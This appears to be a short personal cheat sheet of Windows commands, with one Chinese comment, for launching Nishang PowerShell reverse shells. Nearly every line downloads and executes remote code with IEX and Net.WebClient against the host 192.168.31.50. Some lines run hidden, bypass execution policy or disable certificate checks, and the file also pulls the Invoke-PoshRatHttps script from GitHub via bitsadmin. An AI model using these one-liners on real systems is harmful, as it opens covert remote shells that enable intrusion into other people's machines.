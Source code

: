 # Windows
```
powershell "IEX (New-Object Net.WebClient).DownloadString('F:\Shells\Invoke-PoshRatHttp.ps1'); Invoke-PoshRatHttp 192.168.31.50 -Port 80"
powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c IEX ((New-Object Net.WebClient).DownloadString('http://192.168.31.50:80/connect'))

老版本好用
powershell "IEX (New-Object Net.WebClient).DownloadString('C:\Users\LY\Documents\GitHub\scripts\nishang\Shells\Invoke-PoshRatHttps_old.ps1'); Invoke-PoshRatHttps -IPAddress 192.168.31.50 -Port 80 -SSLPort 8443"
powershell "IEX (New-Object Net.WebClient).DownloadString('F:\Shells\Invoke-PoshRatHttps.ps1'); Invoke-PoshRatHttps -IPAddress 192.168.31.50 -Port 8443"
powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};iex ((New-Object Net.WebClient).DownloadString('https://192.168.31.50:8443/connect'))

powershell "Invoke-Expression (New-Object Net.WebClient).DownloadString('http://192.168.31.50:80/connect')"
```

bitsadmin /transfer myDownLoadJob /download /priority normal "https://raw.githubusercontent.com/samratashok/nishang/bfeabd2e043dfef6392e8a930eb1d7a04392af36/Shells/Invoke-PoshRatHttps.ps1" "F:\test.ps1"

powershell "IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/samratashok/nishang/bfeabd2e043dfef6392e8a930eb1d7a04392af36/Shells/Invoke-PoshRatHttps.ps1','test.ps1')"